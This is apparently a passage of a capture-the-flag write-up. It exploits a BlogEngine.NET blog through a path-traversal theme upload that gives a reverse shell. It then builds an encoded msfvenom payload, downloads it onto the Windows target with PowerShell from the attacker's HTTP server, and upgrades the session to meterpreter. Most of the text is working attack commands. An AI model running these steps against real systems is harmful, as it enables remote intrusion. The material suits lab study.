 Mirror the exploit file:
```
$> searchsploit -m aspx/webapps/46353.cs
```

This file has a detailed overview at the top with how to go about using the exploit to gain remote access. The key details are:
- File must be uploaded as PostView.ascx
- Change the address and port in the script to the lhost and lport
- Upload via '/admin/app/editor/editpost.cshtml'
- Navigate to '/?theme=../../App_Data/files' to run the file

Running the file will give a reverse shell to our listener.

##### Enumerating

The shell we have is quite unstable so I want to stabilize it by creating a meterpreter shell via metasploit.

Craft our reverse shell using `msfvenom`:
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Using our reverse shell we can grab the file from our server (using `python3 -m http.server`):
```powershell
cmd> powershell.exe -c "wget 'http://<ip>:8000/msfvenom_reverse_shell.exe' -OutFile 'C:\Users\Public\msfvenom_reverse_shell.exe'"
```

Create a listener on metasploit:
```bash
msf6> use exploit/multi/handler 
msf6> set payload windows/x64/shell/reverse_tcp
msf6> set lhost <ip>
msf6> set lport <port>
msf6> exploit
```

And the we can run our reverse shell:
```cmd
cmd> C:\Users\Public\msfvenom_reverse_shell.exe
```
& background the session `ctrl+z`

Upgrading to meterpreter:
```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> sessions -l
msf6> set session <reverse-shell-session-id>
msf6> set lhost 10.9.7.128
msf6> set lport 4433
msf6> exploit
msf6> session -i <meterpreter-session-id>

meterpreter>
```
* I did notice the meterpreter/PS shell is still slightly unstable and likes to die from time to time. Keeping the original session around as a backup was handy.
